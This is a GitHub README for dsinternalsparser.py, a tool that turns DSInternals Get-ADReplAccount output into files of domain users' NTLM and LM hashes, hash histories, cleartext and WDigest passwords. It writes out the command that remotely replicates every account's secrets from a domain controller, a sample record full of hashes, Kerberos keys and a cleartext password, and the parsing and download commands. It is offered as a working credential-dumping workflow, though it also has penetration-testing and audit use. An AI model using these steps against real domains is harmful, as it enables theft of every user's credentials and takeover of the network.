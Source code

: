 # dsinternalsparser.py

This tool makes easier and faster the dumping process of hashes stored in a *domain controller*.

```
-----------------------
DSInternals Parser v1.0
-----------------------

usage: dsinternalsparser.py [-h] [-o OUTPUT] [--ntlm] [--nthistory] [--lm]
                            [--lmhistory] [--cleartext] [--wdigest]
                            input_file

Parses a Get-ADReplAccount generated file to extract credentials data,
including hashes.

positional arguments:
  input_file            File to process, generated by Get-ADReplAccount of
                        DSInternals

optional arguments:
  -h, --help            show this help message and exit
  -o OUTPUT, --output OUTPUT
                        Prefix name for output files.
  --ntlm                Generate the file with username and current NTLM hash.
  --nthistory           Generate the file with username and history NTLM
                        hashes.
  --lm                  Generate the file with username and current LM hash.
  --lmhistory           Generate the file with username and history LM hashes.
  --cleartext           Generate the file with existent users that have
                        ClearText password.
  --wdigest             Generate the file with existent users that have
                        Wdigest password.

```


It uses the output of the **DSInternals** modules that retreives *reversibly encrypted plaintext passwords, password hashes and Kerberos keys* of all user accounts from domain controllers.

As mentioned in [DSInternals web page](https://www.dsinternals.com/en/), it is possible to retrieve hashes remotely, instead of the well known method using *vssadmin, ESEDBTOOLS and NTDSXtract*, pretty slow in some cases because of the **NTDS.dit** size, *ESEDBTOOLS* misconfigurations, etc. 

To extract the hashes remotely:

1.  Retrieve all users attributes with the **DSinternals** module *Get-ADReplAccount*, and save it to a local file.
    ```
    Get-ADReplAccount -All -NamingContext 'DC=Example,DC=com' -Server DC1 -Credential $cred >> localfile.txt
    ```
    The file generated has a format similar to the next one.
    ```
    DistinguishedName: CN=April Reagan,OU=IT,DC=Adatum,DC=com
    Sid: S-1-5-21-3180365339-800773672-3767752645-1375
    Guid: 124ae098-699b-4450-a47a-314a29cc90ea
    SamAccountName: April
    SamAccountType: User
    UserPrincipalName: April@adatum.com
    PrimaryGroupId: 513
    SidHistory: 
    Enabled: True
    Deleted: False
    LastLogon: 
    DisplayName: April Reagan
    GivenName: April
    Surname: Reagan
    Description: 
    NTHash: 92937945b518814341de3f726500d4ff
    LMHash: 727e3576618fa1754a3b108f3fa6cb6d
    NTHashHistory: 
      Hash 01: 92937945b518814341de3f726500d4ff
      Hash 02: 1d3da193d2f45911a6f0fa940b9fb32f
      Hash 03: 402bc59d8a00641b7f386e78596340f4
    LMHashHistory: 
      Hash 01: 727e3576618fa1754a3b108f3fa6cb6d
      Hash 02: 5a5503d0e85f58abaad3b435b51404ee
      Hash 03: f9393d97e7a1873caad3b435b51404ee
    SupplementalCredentials:
      ClearText: Pa$$w0rd
      Kerberos:
        Credentials:
          DES_CBC_MD5
            Key: 76fe3b5bda911a40
        OldCredentials:
          DES_CBC_MD5
            Key: 7f8c4f38e0ea0b80
        Salt: ADATUM.COMApril
        Flags: 0
      KerberosNew:
        Credentials:
          AES256_CTS_HMAC_SHA1_96
            Key: 3a3b6a89bb82d112db5ef68f6db5d1afc2b806df61dcd85e3eacf3b85ee382d8
            Iterations: 4096
          AES128_CTS_HMAC_SHA1_96
            Key: a72c8bc96c4a6f03244f0b0067a1e440
            Iterations: 4096
          DES_CBC_MD5
            Key: 76fe3b5bda911a40
            Iterations: 4096
        OldCredentials:
          AES256_CTS_HMAC_SHA1_96
            Key: 14e46244a59a37cd8aa7c1fe61896441c7d065fafe4874191e69c1fe28856810
            Iterations: 4096
          AES128_CTS_HMAC_SHA1_96
            Key: 034b512ec64286dec951d6aff8d81fa8
            Iterations: 4096
          DES_CBC_MD5
            Key: 7f8c4f38e0ea0b80
            Iterations: 4096
        OlderCredentials:
          AES256_CTS_HMAC_SHA1_96
            Key: 2387ca8f936c8c154996809af8fee7c47fe4b9b5dd84d051fc43a9289bbaa3ab
            Iterations: 4096
          AES128_CTS_HMAC_SHA1_96
            Key: 29d536ec057f9063747161429b81f056
            Iterations: 4096
          DES_CBC_MD5
            Key: 58f1cbe6e50e1f83
            Iterations: 4096
        ServiceCredentials:
        Salt: ADATUM.COMApril
        DefaultIterationCount: 4096
        Flags: 0
      WDigest:
        Hash 01: c3d012ab1101eb8f51b483fb4c5f8a7e
        Hash 02: c993da396914645b356ae7816251fcb1
        Hash 03: 6b58530cab34de91189a603e22c2be15
        Hash 04: c3d012ab1101eb8f51b483fb4c5f8a7e
        Hash 05: 5a762cf59fa31023dcba1ebd4725b443
        Hash 06: c78bac91c0ba25cae5d44460fd65a73b
        Hash 07: 59d73cea16afd1aac6bf8acfa2768621
        Hash 08: d2be383db9469a39736d9e2136054131
        Hash 09: 079de9f4d94d97a80f1726497dfd1cc2
        Hash 10: 85dbe1549d5fbfcc91f7fe5ac5910f52
        Hash 11: 961a36bded5535b8fc15b4b8e6c48b93
        Hash 12: 6ac8a60d83e9ae67c2097db716a6af17
        Hash 13: e899e577d5f81ef5288ab67de07fad9a
        Hash 14: 135452ab86d40c3d47ca849646d5e176
        Hash 15: a84c367eaa334d0a4cb98e36da011e0f
        Hash 16: 61a458eb70440b1a92639452f0c2c948
        Hash 17: 238f4059776c3575be534afb46be4ccf
        Hash 18: 03ddf370064c544e9c6dbb6ccbf8f4ac
        Hash 19: 354dd6c77ccf35f63e48cd5af6473ccf
        Hash 20: 5f9800d734ebe9fb588def6aaafc40b7
        Hash 21: 59aab99ebcddcbf13b96d75bb7a731e3
        Hash 22: f1685383b0c131035ae264ee5bd24a8d
        Hash 23: 3119e42886b01cad00347e72d0cee594
        Hash 24: ebef7f2c730e17ded8cba1ed20122602
        Hash 25: 7d99673c9895e0b9c484e430578ee78e
        Hash 26: e1e20982753c6a1140c1a8241b23b9ea
        Hash 27: e5ec1c63e0e549e49cda218bc3752051
        Hash 28: 26f2d85f7513d73dd93ab3afd2d90cf6
        Hash 29: 84010d657e6b58ce233fae2bd7644222
    ```
2. Parse the localfile with dsinternaslparser.py
    ```
    ./dsinternalsparser.py -o dump localfile.txt
    ```
3. After execution, if no options are given, **dsinternalsparser.py** creates 6 files.
    * **NTLM File** (*dump_ntlm.txt*): Contains username and current NTLM Hash.
    * **NTLM History File** (*dump_ntlm_history.txt*): Contains username and NTLM History Hashes.
    * **LM File** (*dump_lm.txt*): Contains username and current LM Hash.
    * **Cleartext File** (*dump_cleartext.txt*): Contains username and Cleartext password, if exists.
    * **NTLM History File** (*dump_wdigest.txt*): Contains username and WDigest history Hashes.
  
  
For more information:

* [Retrieveing Active Directory Passwords Remotely](https://www.dsinternals.com/en/retrieving-active-directory-passwords-remotely/)


## Installation
### Requirements
* Python 2.7 environment
* DSInternals output file generated with Get-ADReplAccount or Get-ADDBAccount.
### Downloading
To download the script, simply download and execute it on a terminal.
```
wget https://raw.githubusercontent.com/r4wd3r/ADPWN/master/dsinternalsparser/dsinternalsparser.py
chmod 755 dsinternalsparser.py
```
